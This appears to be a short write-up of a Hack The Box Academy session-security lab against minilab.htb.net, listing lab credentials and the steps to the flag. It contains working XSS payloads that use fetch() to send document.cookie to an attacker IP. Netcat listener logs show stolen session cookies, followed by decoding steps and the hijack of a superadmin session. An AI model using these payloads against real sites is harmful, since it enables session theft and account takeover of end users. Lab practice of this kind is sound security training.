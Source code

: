 # Sesssion Security - Skill Assessment

The only URL in scope is http://minilab.htb.net
Attacking end-users through client-side attacks is in scope for this particular bug bounty program.

Test account credentials:
> [!IMPORTANT]
> Email: heavycat106
> Password: rocknrol
> Server: http://minilab.htb.net

Through dirbusting, you identified the following endpoint http://minilab.htb.net/submit-solution.

http://minilab.htb.net/app/

Endpoints:

http://minilab.htb.net/submit-solution

`<script>fetch(`http://10.10.14.184:4444?cookie=${btoa(document.cookie)}`)</script>`


nc -nvlp 4444
Connection from 10.10.14.184:38144
GET /?cookie=YXV0aC1zZXNzaW9uPXMlM0FzSkpQYjM1Y2xoZnQtbWlWTmI4YzhTS25wTmJIUE50bC5PTzIzYjFjcGpJNWJmYktkYWxDTnFhUkJjSSUyRjYxZHNoUnNmTW9IeW1yRGM= HTTP/1.1
Host: 10.10.14.184:4444
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: http://minilab.htb.net
Referer: http://minilab.htb.net/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

We get the cookie:
[YXV0aC1zZXNzaW9uPXMlM0FzSkpQYjM1Y2xoZnQtbWlWTmI4YzhTS25wTmJIUE50bC5PTzIzYjFjcGpJNWJmYktkYWxDTnFhUkJjSSUyRjYxZHNoUnNmTW9IeW1yRGM]

Decode in base64:
[auth-session=s%3AsJJPb35clhft-miVNb8c8SKnpNbHPNtl.OO23b1cpjI5bfbKdalCNqaRBcI%2F61dshRsfMoHymrDc]

adminVisited	true
adminVisitedTimestamp	1749657564749
success	true

 ```js
 <script>const cookies = document.cookie;
const authSession = cookies.split('; ').find(row => row.startsWith('auth-session='));
if (authSession) {
    const authValue = encodeURIComponent(authSession.split('=')[1]);

    fetch(`http://10.10.14.184:1337/?cookie=${authValue}`)
        .then(response => console.log('Cookie sent successfully'))
        .catch(error => console.error('Error sending cookie:', error));
} else {
    console.error('auth-session cookie not found');
}</script>
 ```

 s%253A3lZBrpUccqxGE4j_75VAI0AIBGl4t9Ng.%252B%252Bv4%252FONgmqpgxl5V7vnrtgaMgspn1qJOBtLyk07nIh8

We change the cookie sotorag in minilab.htb.net/submit-solution
After that with nc activate go to the

[Get se sessuion:]
nc -nvlp 1337
Connection from 10.129.196.12:40722
GET /?cookie=s%253AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q HTTP/1.1
Host: 10.10.14.184:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 [64253c4c19f292951ca3e6ce0788ed70dc12274d]
Accept: */*
Origin: http://minilab.htb.net
Referer: http://minilab.htb.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
---

echo "s%253AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q" | sed 's/%/\\x/g' | xargs -0 echo -e

s%3AE1zjz94gVYpO9CTQdMQYXrXQ_R4T7_Y6.MZVCsRnA3bRXYbbWJoCijjWz4uqnvahIjWhYBAeLJ0Q

paste the cookie and find de superadmin:

FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
https://academy.hackthebox.com/achievement/349590/153
